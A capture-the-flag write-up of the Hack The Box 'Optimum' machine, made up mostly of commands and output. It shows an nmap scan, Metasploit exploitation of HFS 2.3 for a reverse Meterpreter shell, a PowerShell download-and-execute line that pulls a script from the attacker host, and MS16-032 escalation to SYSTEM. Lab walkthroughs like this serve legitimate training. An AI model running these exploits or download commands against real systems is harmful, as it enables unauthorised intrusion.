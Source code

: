 ## ------------>> Optimum <<---------------

// Start with nmap scan 

    Nmap scan report for 10.10.10.8
    Host is up (0.19s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    HttpFileServer httpd 2.3
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Only port 80 open (web) and the service running its HFS(Http File System)
// lets search in MetaSploit for some exploits

    msf6 > search hfs

    Matching Modules
    ================

       #  Name                                        Disclosure Date  Rank       Check  Description
       -  ----                                        ---------------  ----       -----  -----------
       0  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


// We found a module called rejetto_hfs_exec

    msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
    RHOSTS => 10.10.10.8
    msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.17.8
    LHOST => 10.10.16.197
    msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT
    LPORT => 4444
    msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 1444

    msf6 exploit(windows/http/rejetto_hfs_exec) > exploit -j

    [*] Meterpreter session 2 opened (10.10.17.8:1444 -> 10.10.10.8:49167) at 2021-06-25 05:15:21 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\wmPLpUeeb.vbs' on the target

    meterpreter > getuid
    Server username: OPTIMUM\kostas

// We got shell !! and user flag !

    meterpreter > cat user.txt
    d0c39409d7...................
    
### ------Privilleges Escalation------

// First lets get a powershell shell

    meterpreter > shell
    Process 1352 created.
    Channel 2 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Users\kostas\Desktop>powershell
    powershell
    Windows PowerShell
    Copyright (C) 2014 Microsoft Corporation. All rights reserved.

    PS C:\Users\kostas\Desktop> 

// lets upload [Sherlock](https://github.com/rasta-mouse/Sherlock)(PowerShell script for Enuumerating Privilleges Escalation)



IEX(New-Object Net.WebClient).downloadstring('http://10.10.17.8:1445/Sherlock.ps1')

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 1445
LPORT => 1445
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.16.197
LHOST => 10.10.16.197
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > options 



msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit 

[*] Started reverse TCP handler on 10.10.16.197:1445 
[+] Compressed size: 1100
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\BDOdlL.ps1...
[*] Compressing script contents...
[+] Compressed size: 3588
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2092

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2072
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

DcfyjJkApsGXCACBuIAd2qAvbu4waU0B
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 4 opened (10.10.16.197:1445 -> 10.10.10.8:49173) at 2021-06-25 05:29:52 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\BDOdlL.ps1

meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 


meterpreter > cat root.txt 
51ed1b36553c8461f4552c2e92b3eeed
